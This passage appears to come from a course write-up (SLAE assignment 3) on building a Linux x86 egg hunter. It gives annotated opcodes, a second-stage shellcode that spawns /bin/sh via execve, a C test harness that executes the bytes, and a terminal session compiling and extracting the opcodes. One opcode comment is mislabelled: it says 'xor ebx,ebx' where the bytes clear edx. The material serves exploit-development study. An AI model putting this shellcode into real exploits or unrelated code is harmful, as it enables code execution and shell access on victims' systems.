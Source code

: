~~~ c
                              "\x89\xd7"		          // mov edi,edx
                              "\xaf"			            // scasd
                              "\x75\xe7"		          // jne increment_address
                              "\xaf"			            // scasd
                              "\x75\xe4"		          // jne increment_address
                              "\xff\xe7";		          // jmp edi


unsigned char second_stage[] = \
                                EGG
                                EGG
                                "\x31\xc0\x50\x68\x6e\x2f\x73\x68"
                                "\x68\x2f\x2f\x62\x69\x89\xe3\x50"
                                "\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; // /bin/sh execve-stack

main()
{
  printf("[+] Searching for: %s\n", EGG);
  printf("[+] Egg Hunter Length: %d\n", strlen(egg_hunter));
  printf("[+] Shellcode Length: %d\n", strlen(second_stage));
  int (*ret)() = (int(*)())egg_hunter;
  ret();
}
~~~

The test program can be found <a href="https://github.com/skahwah/slae/blob/master/assignment3/egghunter-test.c">here</a>.

Execution of the egg hunter can be examined in `gdb` after linking, assembling and extracting the opcodes from the egg hunter and placing them into the test program is done.

Before this examining the egg hunter in `gdb`, it is a good idea to test if the program executes as expected.

~~~ bash
skawa@ubuntu:~/Desktop/code/assignment/assignment3$ ls
compile.sh  egghunter.nasm  shellcode.c
skawa@ubuntu:~/Desktop/code/assignment/assignment3$ ./compile.sh egghunter
[+] Assembling with Nasm
[+] Linking
[+] Extracting Opcodes
"\xfc\x31\xc0\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\xb8\x21\x00\x00\x00\xcd\x80\x3c\xf2\x74\xec\xb8\x4b\x53\x4b\x53\x89\xd7\xaf\x75\xe7\xaf\x75\xe4\xff\xe7"
skawa@ubuntu:~/Desktop/code/assignment/assignment3$ vim shellcode.c
skawa@ubuntu:~/Desktop/code/assignment/assignment3$ cat shellcode.c | grep "hunter\[\]" -A 18
unsigned char egg_hunter[] = \
                              "\xfc"	   	           	// cld
                              "\x31\xc0"	           	// xor eax,eax
                              "\x31\xd2"          		// xor ebx,ebx
                              "\x66\x81\xca\xff\x0f"	// or dx,0xfff
                              "\x42"		            	// inc edx
                              "\x8d\x5a\x04"       		// lea ebx,[edx+0x4]
                              "\xb8\x21\x00\x00\x00"	// mov eax,0x21
                              "\xcd\x80"		          // int 0x80
                              "\x3c\xf2"		          // cmp al,0xf2
                              "\x74\xec"		          // je next_page
                              "\xb8" EGG		          // mov EGG
                              "\x89\xd7"		          // mov edi,edx
                              "\xaf"			            // scasd
                              "\x75\xe7"		          // jne increment_address
                              "\xaf"			            // scasd
                              "\x75\xe4"		          // jne increment_address
                              "\xff\xe7";		          // jmp edi

~~~